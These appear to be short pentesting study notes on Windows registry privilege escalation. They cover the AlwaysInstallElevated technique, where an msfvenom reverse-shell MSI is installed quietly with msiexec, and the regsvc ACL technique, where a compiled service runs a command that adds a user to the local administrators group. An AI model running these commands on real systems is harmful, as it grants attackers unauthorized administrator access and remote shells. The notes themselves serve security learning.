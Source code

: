 # Registry 
-----------------

## Autoruns
----------------




## AlwaysInstallElevated
-----------------------------------

https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/


check if both the reg keys are present and are equal to "0x1", we can use this to get a reverse shell 



we can also do this using PowerUp

generate a reverse shell payload using msfvenom and install it in the victim system

```cmd
C:> msiexec /quiet /qn /i  install.ms
```



## regsvc ACL
-------------------

check if we have full control over a registry key using regsvc (Registry Service)

if we have full control over a registry key we can compile a C program and execute it 

```Powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

copy this file to the linux machine 

```cmd
C:\Users\User\Desktop\Tools\Source\windows_service.c
```

replace the command used by the system() function to:

```C
cmd.exe /k net localgroup administrators user /add
```

